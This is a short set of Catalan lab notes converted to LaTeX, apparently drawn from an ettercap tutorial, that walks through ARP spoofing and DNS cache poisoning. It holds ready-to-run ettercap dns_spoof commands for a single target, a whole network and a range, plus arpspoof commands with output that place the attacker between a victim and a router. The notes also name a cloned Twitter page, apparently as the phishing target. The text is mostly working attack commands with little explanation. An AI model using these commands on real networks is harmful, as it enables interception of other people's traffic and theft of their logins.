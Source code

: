 \documentclass[]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{itemize}
\tightlist
\item
  https://esgeeks.com/tutorial-ettercap-ejemplos/
\end{itemize}

Utilitza la següent ordre per llançar una suplantació de DNS:

sudo ettercap -T -q -P dns\_spoof -i wlan0 -M arp /// ///

\#Un altre comandament, per a tota la xarxa sudo ettercap -T -q -M arp
-i wlan0 -P dns\_spoof -p //192.168.1.1/

\#Per a un rang de xarxa sudo ettercap -T -q -M arp -i wlan0 -P
dns\_spoof //192.168.1.1/ 192.168.1.51/

\hypertarget{explicaciuxf3-resumida}{%
\section{\texorpdfstring{\textbf{Explicació
resumida:}}{Explicació resumida:}}\label{explicaciuxf3-resumida}}

ARP Spoof - DNS Cache Poisoning

IP Atacant. 10.200.243.137 MAC Atacant: 08:00:27:16:51:52

IP Victima: 10.200.243.212 MAC Victima: 18:c0:4d:a0:8f:c8

IP Router Gateway: 10.200.243.1 MAC Router Gateway: 00:22:57:be:53:01

Pàgina clonada: http://www.twitter.com

SPOOF del tràfic entre la VÍCTIMA I EL ROUTER --\textgreater{} ES CANVIA
LA MAC DEL CLIENT VICTIMA PER LA MEVA: 18:c0:4d:a0:8f:c8 PER LA MEVA
(ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA
TORNADA.

└─\# arpspoof -i eth0 -t 10.200.243.212 10.200.243.1 8:0:27:16:51:52
18:c0:4d:a0:8f:c8 0806 42: arp reply 10.200.243.1 is-at 8:0:27:16:51:52

``Tot el fluxe que va del servidor a la víctima, redirigeix-los a la
meva màquina''

TORNADA

SPOOF del tràfic entre la EL ROUTER I LA VICTIMA --\textgreater{} ES
CANVIA LA MAC DEL DEL ROUTER PER LA MEVA: 0:22:57:be:53:1 PER LA MEVA
(ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA
TORNADA.

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# arpspoof -i eth0 -t
10.200.243.1 10.200.243.212 8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp
reply 10.200.243.212 is-at 8:0:27:16:51:52 8:0:27:16:51:52
0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52
\end{document}
